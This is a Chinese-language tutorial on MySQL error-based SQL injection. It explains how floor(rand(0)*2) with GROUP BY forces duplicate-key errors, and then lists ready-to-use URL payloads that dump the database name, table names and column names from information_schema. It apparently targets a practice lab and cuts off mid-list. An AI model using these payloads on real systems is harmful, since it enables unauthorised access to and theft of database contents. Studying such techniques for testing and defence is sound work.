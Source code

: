 > Q1：floor()函数是什么？
>
> A1：floor函数的作用是返回小于等于该值的最大整数,也可以理解为向下取整，只保留整数部分。
>
> Q2：rand(0)是什么意思？
>
> A2：rand()函数可以用来生成0或1，但是rand(0)和rand()还是有本质区别的，rand(0)相当于给rand()函数传递了一个参数，然后rand()函数会根据0这个参数进行随机数成成。rand()生成的数字是完全随机的，而rand(0)是有规律的生成。

**关键的函数：**

- rand()  -----产生0~1的伪随机数
- floor()  -----向下取整数，只保留整数部分
- concat() -----连接字符串
- count()  -----计算总数

**格式1：**Select count(\*),2,concat ('~',**PAYLOAD**,'~', floor (rand(0)*2)) **x** from 表名 group by **x** %23；这里的x是任意添加的，可以替换，但要保证两个一样

**格式2：**Select 1,count(\*),2, from 表名 group by concat ('~',**PAYLOAD**,'~', floor (rand(0)*2)) %23;



**爆库名**

payload填入：database()；除此之外，为了让数据分离出来，我们人为加入`~`让数据分离出来

```
?id=1' union select count(*),2,concat('~',database(),'~',floor(rand(0)*2))as x from information_schema.tables group by x --+
```

![image-20210314170344525](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210314170344525.png)

爆表名，列名，值都是同理，替换格式的plyload就好了！

**爆表名**

```
# 格式一
?id=1'union select count(*),1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~',floor(rand(0)*2)) as x from information_schema.tables group by x--+

# 格式二
?id=1'union select count(*),2,3 from information_schema.tables group by concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~',floor(rand(0)*2))--+
```

**爆列名**

```
# 爆所有列名（group_concat一列）
?id=1' union select count(*),2,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users'),'~',floor(rand(0)*2)) as x from information_schema.columns group by x--+

# 爆所有列名（group_concat一列，去掉前几个不关键的）
?id=1' union select count(*),2,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),'~',floor(rand(0)*2)) as x from information_schema.columns group by x--+

# 爆单个列名（limit控制）
?id=1' union select count(*),2,concat('~',(select column_name from information_schema.columns where table_name='users' limit 0,1),'~',floor(rand(0)*2)) as x from information_schema.tables group by x--+

# 爆单个列名（limit控制，去掉前几个不关键的）
```